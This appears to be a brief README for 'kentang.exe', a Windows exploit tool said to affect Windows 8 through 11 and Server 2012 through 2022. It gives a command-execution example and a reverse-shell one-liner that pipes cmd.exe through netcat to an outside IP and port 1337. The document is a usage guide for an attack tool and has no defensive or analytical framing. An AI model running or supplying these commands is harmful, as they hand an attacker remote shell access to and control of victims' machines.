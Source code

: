 # dewa kentang


## Affected version

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11

# execute

command

```
kentang.exe -cmd "cmd /c whoami"
```

reverse shell commands

```
kentang.exe -cmd "nc.exe -t -e cmd.exe 123.123.123 1337"
```
